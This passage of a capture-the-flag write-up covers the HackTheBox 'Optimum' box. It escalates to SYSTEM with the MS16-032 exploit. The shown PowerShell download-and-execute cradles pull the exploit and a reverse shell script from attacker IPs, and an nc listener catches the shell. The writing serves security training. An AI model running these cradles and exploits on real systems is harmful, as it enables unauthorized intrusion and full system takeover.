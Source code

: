 ```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True
```

The exploit-db [link](https://www.exploit-db.com/exploits/39719/) will not work for this kind of scenario, as it will pop a new window on the box, rather than giving me the ability to run a command. Luckily, the folks in the Empire project ported a [version of this script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) to add a command option.

I’ll download a copy of that, and add a line at the end to call it with a command to download and execute my reverse shell:\
```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.2/rev.ps1')"
```

From the 64-bit shell, (and with both a Python web server serving `rev.ps1` and `nc` listening on 443 to get the shell), I’ll use the same PowerShell cradle to download and execute the exploit:
```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

There’s a request right away for `Invoke-MS16032.ps1`. Once that last message pops, there’s another request for `rev.ps1`, and then a shell at `nc`:

```
┌──(darshan㉿kali)-[~/…/HackTheBox/Windows-boxes/Optimum/Another-try]
└─$ sudo nc -lnvp 443            
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.8] 49246
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
```

And I can grab `root.txt`:
```
PS C:\Users\kostas\Desktop> cd C:\users\administrator\desktop
PS C:\users\administrator\desktop> dir


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-ar--          6/2/2023   3:21 ??         34 root.txt                          


PS C:\users\administrator\desktop> type root.txt
[REDACTED]
```
